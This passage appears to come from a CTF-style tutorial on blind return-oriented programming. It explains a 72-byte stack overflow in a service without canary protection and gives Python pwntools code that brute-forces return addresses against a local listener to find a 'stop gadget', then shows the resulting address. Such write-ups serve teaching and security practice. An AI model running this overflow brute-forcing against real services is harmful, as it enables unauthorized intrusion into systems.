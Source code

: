 

Based on the above, we can determine that the length of the stack overflow is 72. At the same time, according to the echo information, it can be found that the program does not open canary protection, otherwise, there will be corresponding error content. So we don&#39;t need to perform stack reading.


#### Looking for stop gadgets


The search process is as follows


```python

def get_stop_addr(length):

    addr = 0x400000

    while 1:

        try:

            sh = remote('127.0.0.1', 9999)

            sh.recvuntil('password?\n')

            payload = 'a' * length + p64(addr)

            sh.sendline(payload)

            sh.recv()

            sh.close()

            print 'one success addr: 0x%x' % (addr)

            return addr

        except Exception:

            addr += 1

            sh.close()

```



Here we directly try 64-bit programs without PIE, because it is generally like this, if it is turned on, then follow the open method, and found a lot, I chose a seemingly return Address to the source program


```text

one success stop gadget addr: 0x4006b6

```
